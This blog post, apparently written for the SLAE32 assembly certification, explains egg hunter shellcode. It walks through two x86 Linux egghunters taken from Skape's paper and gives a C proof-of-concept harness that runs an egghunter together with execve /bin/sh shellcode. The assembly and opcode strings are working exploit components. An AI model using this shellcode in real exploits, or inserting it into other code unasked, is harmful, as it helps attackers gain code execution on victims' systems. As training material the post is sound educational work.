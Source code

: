 ```yaml
---
layout: post
title: SLAE 3 - Egg Hunter shellcode
---
```



Link: [https://github.com/ricardojoserf/slae32/tree/master/a3_Egg_Hunter](https://github.com/ricardojoserf/slae32/tree/master/a3_Egg_Hunter)

The guide for this assignment is:

- Study about the Egg Hunter shellcode

- Create a working demo of the Egghunter

- Should be configurable for different payloads


---------------------------------------------------


## What is an EggHunter?

It is a very efficient exploitation method when we have little space to store our shellcode which can be seen as a [Staged Shellcode](https://en.wikipedia.org/wiki/Shellcode#Staged).

Summing up, the first part of shellcode will be responsible for searching our 4-byte tag or "egg" in memory and the second part will be stored in some position of the memory, composed of the "egg" and the shellcode to execute (which can be the typical shellcode to spawn a shell, to open a reverse shell...).

Knowing this, the first part is the most important and the one which must be researched carefully. There are many "egghunters" on the internet, but in this case we will focus our study in the ones shown in [the Skape's paper from 2004](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf).

These egghunters have the three requirements needed: robustness, small size and they are fast. In all of them the author uses 8-byte "eggs", which means that the tag is used twice. The technique is based on the system calls, given they can "*validate process-relative memory addresses without leading to a segmentation fault or other runtime error in the program itself*", using them to check if the memory is readable and later if the tag has been reached.


## EggHunter study
The two egghunters studied use the same syscall: access.

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a3_Egg_Hunter/images/1.png)


### Egghunter 1

From the code in page 8 it is possible to extract the first egghunter, with a size of 39 bytes and an estimated speed in the paper of 8 seconds:

```assembly
global _start

section .text
_start:
  mov ebx, 0x50905090
  xor ecx, ecx
  mul ecx

jump1:
  or dx, 0xfff

jump2:
  inc edx; $edx = Size 4096 bytes
  pusha
  lea ebx, [edx+0x4]
  xor eax, eax
  mov al, 0x21
  int 0x80
  cmp al, 0xf2
  popa
  jz short jump1
  cmp dword [edx], ebx
  jnz short jump2
  cmp dword [edx+4], ebx
  jnz short jump2
  jmp edx
```

This code uses a "page size" of 4096 bytes (0x0fff + 0x0001 = 0x1000 or 4096) which is set in EDX register, EBX register contains the address to validate (current address of EDX plus 4) and EAX contains the value needed for the access system call (0x21). After the system call, EAX is compared with 0xf2 (which represents EFAULT), if the comparison is not met the address value is checked agaisnt the "egg" value twice, contained in EBX register (given the registers value is stored before the system call and restored before checking the address against the "egg" using *pusha* and *popa*).

Finally, it is tested with the "execve" shellcode as payload:

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a3_Egg_Hunter/images/2.png)




### Egghunter 2

From the code in page 11 it is possible to extract the second egghunter, with a size of 35 bytes (so it is smaller than the previous one) and an estimated speed in the paper of 7,5 seconds (so it is faster):

```assembly
global _start

section .text
_start: 

  xor edx, edx

test1:  

  or dx, 0xfff

test2:  
  inc edx
  lea ebx, [edx+0x4]
  push byte 0x21
  pop eax  
  int 0x80
  cmp al, 0xf2
  jz test1 
  mov eax, 0x50905090
  mov edi, edx
  scasd
  jnz test2
  scasd
  jnz test2
  jmp edi
```
In this second shellcode the great difference is the "egg" comparison, because in this case an IA32 native instruction named *scasd* is used, allowing to use an smaller number of opcodes for the comparison.

Finally, it is tested with the "execve" shellcode as payload:

![Screenshot](https://raw.githubusercontent.com/ricardojoserf/slae32/master/a3_Egg_Hunter/images/3.png)



### POC code

This is the code of *shellcode.c* for this exercise. As it can be seen, the payload can be easily configured:


```cpp
#include <stdio.h>
#include <string.h>
// TAG or EGG is defined in here
#define egg "\x90\x50\x90\x50"

// unsigned char egghunter[] = EGGHUNTER
unsigned char egghunter[] = "\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";
// unsigned char shellcode[] = egg egg PAYLOAD
unsigned char shellcode[] = egg egg "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main() {

  printf("Egghunter Length:  %d\n", strlen(egghunter));
  printf("Egghunter Egg + Shellcode:  %d\n", strlen(shellcode));

  int (*ret)() = (int(*)())egghunter;

  ret();
}
```



## Useful links 

- Paper: http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf

- Python PoC con Kolibri: https://medium.com/@rafaveira3/exploit-development-kolibri-v2-0-http-server-egg-hunter-example-1-5e435aa84879



---------------------------------------------------


## Note

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: https://www.pentesteracademy.com/course?id=3

Student ID: SLAE - 1433
